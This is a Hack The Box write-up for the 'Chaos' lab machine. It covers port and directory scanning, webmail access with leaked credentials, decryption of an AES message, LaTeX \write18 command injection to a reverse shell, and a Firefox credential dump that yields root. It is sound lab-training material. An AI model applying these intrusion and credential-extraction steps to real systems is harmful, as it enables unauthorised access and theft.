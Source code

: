 ```yaml
---
layout: post
title:  "HTB Writeup - Chaos"
date:   2019-05-04 12:59:50 +0000
---
```


# HTB Writeup - Chaos
<br />
As always, I start with nmap: 
```
root@kali:~/chaos# nmap -A -sS -sV -p- 10.10.10.120
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-04 06:46 EDT
Nmap scan report for 10.10.10.120
Host is up (0.054s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE           VERSION
80/tcp    open  http?
110/tcp   open  pop3?
| fingerprint-strings: 
|   GenericLines, NULL: 
|_    +OK Dovecot (Ubuntu) ready.
143/tcp   open  imap              Dovecot imapd (Ubuntu)
993/tcp   open  imaps?
995/tcp   open  pop3s?
10000/tcp open  snet-sensor-mgmt?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port110-TCP:V=7.70%I=7%D=5/4%Time=5CCD6DB3%P=x86_64-pc-linux-gnu%r(NULL
SF:,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n")%r(GenericLines,1D," SF:\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.20 seconds.
```
<br />

Here we can see that there are a few open ports. Let's start with the 80.
http:/10.10.10.120/
<img src="/assets/chaos1.PNG" alt="drawing" width="600"/>
<img src="/assets/chaos2.PNG" alt="drawing" width="600"/>



The website appeared quite empy, so I ran dirb: 
```
root@kali:~/chaos# dirb http://10.10.10.120/ /usr/share/dirb/wordlists/common.txt

------

DIRB v2.22

## By The Dark Raver

START_TIME: Sat May  4 07:23:03 2019
URL_BASE: http://10.10.10.120/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.120/ ----

- http://10.10.10.120/index.html (CODE:200|SIZE:73)
  ==> DIRECTORY: http://10.10.10.120/javascript/
- http://10.10.10.120/server-status (CODE:403|SIZE:300)
  ==> DIRECTORY: http://10.10.10.120/wp/

---- Entering directory: http://10.10.10.120/javascript/ ----
==> DIRECTORY: http://10.10.10.120/javascript/jquery/

---- Entering directory: http://10.10.10.120/wp/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.120/javascript/jquery/ ----

- http://10.10.10.120/javascript/jquery/jquery (CODE:200|SIZE:268026)

------

END_TIME: Sat May  4 07:33:01 2019
DOWNLOADED: 13836 - FOUND: 3
```
<br />
The most interesting directory is /wp. For this reason I used WPScan.

It found a web page protected by password. Since previously I found a comment posted by human, I tried human:human, and it worked!
```
Protected: chaos
creds for webmail

username - ayush
password - jiujitsu
```
# POP and IMAP

I tried to investigate POP3s:
```
root@kali:~# socat  - OPENSSL:chaos:995,verify=0 
+OK Dovecot (Ubuntu) ready.
USER ayush
+OK
PASS jiujitsu
+OK Logged in.
```
<br />

The credentials worked, but the enumeration dind't find anything interesting.

I tried with sslclient, I had numerous fails in trying to talk to this service. After enumerating, I found out there a message in the Drafts:
<img src="/assets/chaos3.PNG" alt="drawing" width="600"/>


```
root@kali:~/chaos# cat mail 
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush

enim_msg.txt

0000000000000234®îªzŠØ³pK8…ZCƒÌõð¹‰^9ä¯kW‡À•Ô&wø9Ü¾©‚ö½EÓä'q’[žèžû9îZ‹Þ3€«íæ.žC–¹ÚÁí¬Ë;¬Ø3Áø•¢¾ó6¼ŸR`n
```

The attachment enim_msg.txt was some encrypted string, and in addition there was also a Python script with what looked like the function used to encrypt the content.
```
root@kali:~/chaos# cat en.py def encrypt(key, filename):
    chunksize = 64*1024
    outputFile = "en" + filename
    filesize = str(os.path.getsize(filename)).zfill(16)
    IV =Random.new().read(16)

encryptor = AES.new(key, AES.MODE_CBC, IV)

with open(filename, 'rb') as infile:
    with open(outputFile, 'wb') as outfile:
        outfile.write(filesize.encode('utf-8'))
        outfile.write(IV)

        while True:
            chunk = infile.read(chunksize)

            if len(chunk) == 0:
                break
            elif len(chunk) % 16 != 0:
                chunk += b' ' * (16 - (len(chunk) % 16))

            outfile.write(encryptor.encrypt(chunk))

def getKey(password):
            hasher = SHA256.new(password.encode('utf-8'))
            return hasher.digest()
```
Looking around on the internet, I found that this is a snippet of code from a AES encryption/decryption tool, but instead I decided to just write the decryption function myself.

```
def decrypt(key):
    chunksize = 64*1024
    input_file = "enim_msg.txt"
    filecontent = open(input_file, 'rb').read()
    print('File content %s bytes' % len(filecontent))
    filesize = filecontent[:16]
    IV = filecontent[16:32]
    ciphertext = filecontent[32:]
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    print(decryptor.decrypt(ciphertext))
    
File content 272 bytes
b'SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK\n\n
```
At this point the message decrypted was clearly base64 encoded, so I decoded it.
```
root@kali:~/chaos# echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```
The link pointed to some PDF generation page. Here we could insert some code and choose a template, and some PDF would have been generated for us (or at least that’s what the page claimed).

Checking the actual response that the server was giving me, I could see that there was some LaTeX engine behind the page, as the response contained the execution log of the pdflatex command.

I googled for potential vulnerability, and found that [it was possible to inject commands by using \immediate\write18{$CMD} in the PDF generation box]([https://0day.work/hacking-with-latex/]).

First I tried some commands to see what I could do, checking the output from the server response. After I could not find anything interesting I decided to just execute as CMD a Python reverse shell, while listening with nc from Kali. So I got a shell as www-data.

After several rabbit holes, getting the user flag was just issueing this command:
```
www-data@chaos:/etc/dovecot$ su ayush
su ayush
Password: jiujitsu
```
The shell I got was very restricted, so I spawned a new shell with python: 
```
su -c "python -c 'import pty; pty.spawn(\"/bin/bash\")' " ayush
```
<br />
# Priviledge Escalation
<br />
The Privesc was not difficult, since in the home directory I found a mozilla folder with backups of user profile. The credentials in that file were encrypted, however I found a tool to decrypt it:
```
ayush@chaos:~/.mozilla$ python firefox_decrypt.py firefox
python firefox_decrypt.py firefox

Master Password for profile firefox/bzo7sjt1.default: jiujitsu

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```
<br />

With this credentials it was possible to login to the webmin interface and get the root flag.
